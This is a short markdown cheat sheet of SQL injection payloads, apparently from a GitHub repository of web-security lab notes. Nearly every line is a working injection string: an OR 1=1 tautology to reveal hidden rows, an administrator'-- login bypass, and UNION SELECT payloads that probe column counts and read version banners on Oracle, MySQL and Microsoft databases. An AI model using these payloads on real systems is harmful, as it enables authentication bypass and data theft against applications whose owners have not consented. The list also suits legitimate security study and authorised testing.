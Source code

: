 # SQL Injection Payloads

**Retreive Hidden Data**
  - Modify the query parameter value
```SQL
'+OR+1=1--
```
---
**Login bypass**
  - Modify the user or username parameter
```SQL
administrator'--
```
---
**Oracle database type and version information**
  - Determine the number of columns being returned by the query and which columns contain text data
```SQL
'+UNION+SELECT+'abc','def'+FROM+dual--
```
  - Display the database version information
```SQL
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
---
**MySQL and Microsoft database type and version information**
- Determine the number of columns being returned by the query and which columns contain text data
```SQL
'+UNION+SELECT+'abc','def'#
```
  - Display the database version information
```SQL
'+UNION+SELECT+@@version,+NULL#
```
---
